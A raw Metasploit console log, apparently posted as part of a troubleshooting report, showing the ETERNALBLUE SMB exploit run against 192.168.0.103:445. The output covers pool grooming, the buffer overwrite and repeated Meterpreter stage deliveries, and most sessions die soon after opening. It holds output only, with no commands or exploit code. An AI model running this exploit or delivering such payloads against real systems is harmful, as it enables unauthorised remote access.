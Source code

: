 ```console
[-] Meterpreter session 33 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 33 closed.  Reason: Died
[*] 192.168.0.103 - Meterpreter session 34 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 34 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 35 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 35 closed.
[*] 192.168.0.103 - Meterpreter session 36 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 36 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 37 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 37 closed.
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 38 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 38 closed.
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 39 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 39 closed.
[*] 192.168.0.103 - Meterpreter session 40 closed.  Reason: Died
[*] 192.168.0.103 - Meterpreter session 41 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 40 is not valid and will be closed
[-] Meterpreter session 41 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103:445 - Starting non-paged pool grooming
[*] 192.168.0.103 - Meterpreter session 42 closed.  Reason: Died
[*] 192.168.0.103 - Meterpreter session 43 closed.  Reason: Died
[+] 192.168.0.103:445 - Sending SMBv2 buffers
[+] 192.168.0.103:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.0.103:445 - Sending final SMBv2 buffers.
[*] 192.168.0.103:445 - Sending last fragment of exploit packet!
[*] 192.168.0.103:445 - Receiving response from exploit packet
[+] 192.168.0.103:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.0.103:445 - Sending egg to corrupted connection.
[*] 192.168.0.103:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 42 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 44 closed.  Reason: Died
[-] Meterpreter session 44 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 43 is not valid and will be closed
[-] Meterpreter session 46 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 46 closed.
[*] 192.168.0.103 - Meterpreter session 47 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 48 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 48 closed.
[*] 192.168.0.103 - Meterpreter session 49 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 49 is not valid and will be closed
[-] Meterpreter session 47 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 50 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 50 closed.
[*] 192.168.0.103 - Meterpreter session 50 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103 - Meterpreter session 51 closed.  Reason: Died
```